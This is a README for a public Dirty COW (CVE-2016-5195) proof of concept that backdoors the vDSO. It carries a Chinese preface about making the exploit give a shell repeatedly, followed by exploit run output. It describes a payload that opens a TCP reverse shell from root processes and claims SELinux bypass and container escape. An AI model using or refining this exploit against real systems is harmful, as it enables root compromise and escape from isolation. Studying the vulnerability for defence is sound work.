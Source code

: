 
# ckx：想要改成多次可重复利用的版本

```
目前问题在于，该修复的都修复了，依旧无法反复get shell
同时，按理说不修复gettime的前几个字节的话，应该经常会有反弹shell打出来，但是并没有观察到这个现象也还是一次性只能打一个shell的这个问题
```

```
ckx@ckx:~/rr/dirtycow-vdso$ ./0xdeadbeef
[*] payload target: 127.0.0.1:1234
char in pre: e8
char in pre: 52
char in pre: 15
char in pre: 0
char in pre: 0
char in pre: 90
char in pre: 90
char in pre: f
char in pre: 31
char in pre: 48
char in pre: c1
char in pre: e2
ip in char: 7f
ip in char: 0
ip in char: 0
ip in char: 1
ip in char: 66
ip in char: c7
ip in char: 44
ip in char: 24
ip in char: 2
ip in char: 4
ip in char: d2
ip in char: c6
char: 55
char: 48
char: 89
char: e5
char: f
char: ae
char: e8
char: 90
found one
ckx: prologue size = 7
ckx: return ckxprologue!!
[*] exploit: patch 1/2
[*] vdso successfully backdoored
[*] exploit: patch 2/2
[*] vdso successfully backdoored
[*] waiting for reverse connect shell...
id
```


# 0xdeadbeef

PoC for [Dirty COW](http://dirtycow.ninja/) (CVE-2016-5195).

This PoC relies on ptrace (instead of `/proc/self/mem`) to patch vDSO. It has a
few advantages over PoCs modifying filesystem binaries:

- no setuid binary required
- SELinux bypass
- container escape
- no kernel crash because of filesystem writeback

And a few cons:

- architecture dependent (since the payload is written in assembly)
- doesn't work on every Linux version
- subject to vDSO changes


## Payload

The current payload is almost the same as in
[The Sea Watcher](https://github.com/scumjr/the-sea-watcher) and is executed
whenever a process makes a call to `clock_gettime()`. If the process has root
privileges and `/tmp/.x` doesn't exist, it forks, creates `/tmp/.x` and finally
creates a TCP reverse shell to the exploit. It isn't elegant but it could be
used for container escape.


## TODO

- payload improvement
- release of the tool for vDSO payloads testing

Detecting if vDSO is successfuly patched isn't bulletproof. During the *restore*
step, the vDSO is effectively restored but the exploit fails to report it
correctly. Indeed, the vDSO changes don't seem to affect the exploit process.
